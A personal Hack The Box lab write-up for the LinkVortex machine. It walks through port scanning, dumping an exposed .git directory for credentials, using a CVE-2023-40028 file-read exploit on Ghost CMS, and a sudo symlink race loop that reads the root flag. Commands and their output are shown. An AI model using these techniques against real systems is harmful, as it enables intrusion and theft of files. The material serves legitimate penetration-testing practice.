



# LinkVortex

- **Author:** Julien Bongars
- **Date:** 2026-02-04 03:17:32
- **Path:** /home/julien/.hacklas/targets/track-oscp/LinkVortex

---

link = https://app.hackthebox.com/machines/LinkVortex
ip =

# Description

LinkVortex is an easy-difficulty Linux machine with various ways to leverage symbolic link files (symlinks). The initial foothold involves discovering an exposed .git directory that can be dumped to retrieve credentials. These credentials allow access to the Ghost content management system vulnerable to CVE-2023-40028. This vulnerability allows authenticated users to upload symlinks, enabling arbitrary file read within the Ghost container. The exposed credentials in the Ghost configuration file can then be leveraged to gain a shell as the user on the host system. Finally, the user can execute a script with sudo permissions that are vulnerable to a symlink race condition attack (TOCTOU). This presents an opportunity to escalate privileges by creating links to sensitive files on the system and ultimately gaining root access.

# Port scanning

**rustscan**

```bash
rustscan -a "$IP_ADDRESS" -ulimit 5000 -- -sC -sV -oA "/home/julien/.hacklas/targets/track-oscp/LinkVortex/nmap/quick"
```

**nmap**

```bash
nmap -sC -sV -p- -oA "/home/julien/.hacklas/targets/track-oscp/LinkVortex/nmap/full" "$IP_ADDRESS"


# Nmap 7.94SVN scan initiated Wed Feb  4 03:41:37 2026 as: nmap -sC -sV -oA ./nmap/quick.nmap 10.129.193.249
Nmap scan report for 10.129.193.249
Host is up (0.0060s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://linkvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb  4 03:41:43 2026 -- 1 IP address (1 host up) scanned in 6.76 seconds
```

we add the IP address to /etc/hosts and run gobuster for vhost discovery

# Enumeration

## Ghost CMS

I found there is an admin page in `http://linkvortex.htb/ghost` I found this by accessing the `robots.txt` file. Digging around I found the `/author/admin` page. I guess `admin` is the username. Nothing interesting.

## dev.linkvortex.htb

I found that there is a `dev.linkvortex.htb` which appears to be a dev page


digging further (as in reading the description) it looks like `/.git` is exposed. I used `git-dumper` to dump the src but inside the src I found nothing interesting.

## Source Code

Apparently there are creds for Bob username somewhere but I still don't see anything

```bash
[julien@parrot src]$ git status
Not currently on any branch.
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        new file:   Dockerfile.ghost
        modified:   ghost/core/test/regression/api/admin/authentication.test.js
```

running `git diff --cached HEAD` I get
there is this password that appears in a file that was added:-

```bash
diff --git a/Dockerfile.ghost b/Dockerfile.ghost
new file mode 100644
index 0000000..50864e0
--- /dev/null
+++ b/Dockerfile.ghost
@@ -0,0 +1,16 @@
+FROM ghost:5.58.0
+
+# Copy the config
+COPY config.production.json /var/lib/ghost/config.production.json
+
+# Prevent installing packages
+RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb
+
+# Wait for the db to be ready first
+COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
+COPY entry.sh /entry.sh
+RUN chmod +x /var/lib/ghost/wait-for-it.sh
+RUN chmod +x /entry.sh
+
+ENTRYPOINT ["/entry.sh"]
+CMD ["node", "current/index.js"]
diff --git a/ghost/core/test/regression/api/admin/authentication.test.js b/ghost/core/test/regression/api/admin/authentication.test.js
index 2735588..e654b0e 100644
--- a/ghost/core/test/regression/api/admin/authentication.test.js
+++ b/ghost/core/test/regression/api/admin/authentication.test.js
@@ -53,7 +53,7 @@ describe('Authentication API', function () {
 
         it('complete setup', async function () {
             const email = 'test@example.com';
-            const password = 'thisissupersafe';
+            const password = 'OctopiFociPilfer45';
 
             const requestMock = nock('https://api.github.com')
                 .get('/repos/tryghost/dawn/zipball')
```



Find out that the version for Ghost CMS is 5.58.0. Doing some digging it's vulnerable to [CVE-2023-40028](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028)

running the exploit.. getting bunch of files

```bash
[julien@parrot Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028]$ ./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h 'http:
//linkvortex.htb'
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /etc/passwd
File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
Enter the file path to read (or type 'exit' to quit): /proc/self/cwd/.env
File content:
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Not Found</pre>
</body>
</html>
Enter the file path to read (or type 'exit' to quit): /etc/hosts
File content:
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.20.0.2      9e145d447152
Enter the file path to read (or type 'exit' to quit): /proc/self/environ
File content:
Enter the file path to read (or type 'exit' to quit): /etc/os-release
File content:
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
VERSION_CODENAME=bullseye
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
Enter the file path to read (or type 'exit' to quit):
```

got stuck here

There is a filepath for the ghost config

```json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
      "minWait": 1,
      "maxWait": 604800000,
      "freeRetries": 5000
    }
  },
  "mail": {
    "transport": "SMTP",
    "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
      }
    }
  }
}
```

```txt
"user": "bob@linkvortex.htb",
"pass": "fibber-talented-worth"
```

and we find stupid bob....

HTB says I'm **WRONG** but I got in. Stupid HTB



## Escalation

Running `sudo -l` on bob I get the following:-

```bash
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

We find the sudo script in question:-

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

so there is your race condition but no idea how to trigger it..

### The vulnerability:

There's a TOCTOU (time-of-check to time-of-use) race condition between the security check and the cat command.
The script checks the symlink target with readlink and grep, but then later does cat $QUAR_DIR/$LINK_NAME. Between the move and the cat, or even after the check, the symlink's target could be changed.

### How to exploit it:

The race window is between when grep checks the target and when cat reads the file. You need CHECK_CONTENT=true for the cat to run.

I guess I need to run two terminal sessions like so

```bash
# Terminal 1: Loop creating and switching the symlink
while true; do
  ln -sf /tmp/harmless.txt ./exploit.png
  ln -sf /root/root.txt ./exploit.png
done

# Terminal 2: Loop running the script
while true; do
  CHECK_CONTENT=true sudo /opt/ghost/clean_symlink.sh ./exploit.png
done


while true; do
  CHECK_CONTENT=true sudo /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
done
```

I got the root flag......

```bash
User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
bob@linkvortex:~$ while true; do
  CHECK_CONTENT=true sudo /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
done
Link found [ exploit.png ] , moving it to quarantine
Content:
da7603fea754840d5d354b2e0495c723
! Trying to read critical files, removing link [ exploit.png ] !
Link found [ *.png ] , moving it to quarantine
Content:
try again
! Trying to read critical files, removing link [ exploit.png ] !
! Trying to read critical files, removing link [ exploit.png ] !
! Trying to read critical files, removing link [ exploit.png ] !
Link found [ *.png ] , moving it to quarantine
Content:
da7603fea754840d5d354b2e0495c723
Link found [ exploit.png ] , moving it to quarantine
Content:
da7603fea754840d5d354b2e0495c723
! Trying to read critical files, removing link [ exploit.png ] !
Link found [ exploit.png ] , moving it to quarantine
Content:
try again
Link found [ exploit.png ] , moving it to quarantine
Content:
try again
! Trying to read critical files, removing link [ exploit.png ] !
! Trying to read critical files, removing link [ *.png ] !
Link found [ exploit.png ] , moving it to quarantine
Content:
try again
! Trying to read critical files, removing link [ exploit.png ] !
! Trying to read critical files, removing link [ exploit.png ] !
Link found [ *.png ] , moving it to quarantine
Content:
try again
^C
bob@linkvortex:~$
```

# Creds

Admin page username = admin@linkvortex.htb
Admin page password = OctopiFociPilfer45

SSH
"user": "bob",
"pass": "fibber-talented-worth"

# References

-

# To Improve

## Fumbled subdomain enumeration

I originally fumbled the initial ffuf for subdomain enumeration. Just use

```bash
ffuf -u 'http://<TARGET>' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
```

to get them properly

## Got stuck on src code enumeration.

Got stuck enumerating src codebase.

### Fumbled Git Dumper

```bash
mkdir src && git-dumper 'http://dev.linkvortex.htb/.git' ./src
```

Make sure you pay attension to tracked changes not yet committed.

## Got stuck could enum LFI didn't know what to cat

You have the src. You can always look for clues there. Actually you also have the description. Before you reach for the video, you con read description for more clues. The "Guided Mode" in HTB is complete bullshit.

man.... it was starring me in the face. I just needed to look left..



## Retro

Actually they were not huge mistates. Really it's not like I'm missing anything conceptually wrong. I just need more practice I think. What went right was the checklist, I was able to remember the robots.txt file. Maybe a few more and I can consider writing more checklists for escalation, enumeration, etc...

I should probably celebrate this one though. This is my 2nd box in a row within 2 days. I started this one at 0200 ish and it's 0630 now. I finished it in 4h30m.
